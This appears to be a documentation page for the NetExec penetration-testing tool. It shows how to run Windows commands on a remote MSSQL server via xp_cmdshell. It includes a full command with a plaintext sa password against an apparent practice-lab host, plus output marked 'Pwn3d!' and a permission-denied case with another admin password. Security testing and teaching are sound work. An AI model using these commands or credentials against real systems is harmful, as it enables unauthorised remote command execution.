 # Execute commands via xp_cmdshell

## Execute Windows Command

### This option use xp_cmdshell to exec command on the remote host.

#### #~ nxc mssql 10.10.10.59 -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami

MSSQL       10.10.10.59     1433   None             [+] sa:GWE3V65#6KFH93@4GWTG2G (Pwn3d!)

MSSQL       10.10.10.59     1433   None             [+] Executed command via mssqlexec

MSSQL       10.10.10.59     1433   None             --------------------------------------------------------------------------------

MSSQL       10.10.10.59     1433   None             tally\sarah

### If permission is DENIED:


MSSQL       10.10.10.52     1433   None             [+] admin:m$$ql_S@_P@ssW0rd! (Pwn3d!)

MSSQL       10.10.10.52     1433   None             [-] ERROR(MANTIS\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.

MSSQL       10.10.10.52     1433   None             [+] Executed command via mssqlexec

MSSQL       10.10.10.52     1433   None             None


